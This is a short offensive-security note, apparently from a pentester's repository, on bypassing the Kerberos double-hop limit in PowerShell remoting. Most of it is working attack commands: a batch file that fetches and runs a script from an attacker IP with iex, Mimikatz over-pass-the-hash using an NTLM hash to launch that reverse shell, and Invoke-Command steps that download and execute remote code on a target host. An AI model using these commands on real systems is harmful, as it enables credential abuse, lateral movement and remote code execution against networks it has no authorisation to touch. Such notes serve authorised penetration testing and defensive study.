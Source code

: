 # Kerberos Double Hop Bypass

By default, Kerberos doesn't permise to run a PSSession into a PSSession (or Invoke-Command into a PSSession, or whatever)

This can be bypassed with Mimikatz, by running a reverse shell in a Over-Pass-the-Hash from a PSSession

    $Contents = "powershell.exe -c iex ((New-Object Net.WebClient).DownloadString('http://<attacker_IP>/Invoke-HelloWorld.ps1'))"
    Out-File -Encoding Ascii -InputObject $Contents -FilePath ./reverse.bat
    Invoke-Mimikatz -Command '"sekurlsa::pth /user:user1 /domain:domain.local /ntlm:<nthash> /run:.\reverse.bat"'

In the new shell it is not possible to run an Enter-PSSession, but it is possible to create a New-PSSession and run Invoke-Command into this new session

    $sess = New-PSSession <target>
    Invoke-Command -ScriptBlock{whoami;hostname} -Session $sess

    Invoke-Command -ScriptBlock{mkdir /tmp; iwr http://<attacker_IP>/Invoke-HelloWorld.ps1 -o /tmp/Invoke-HelloWorld.ps1; . \tmp\Invoke-HelloWorld.ps1} -Session $sess
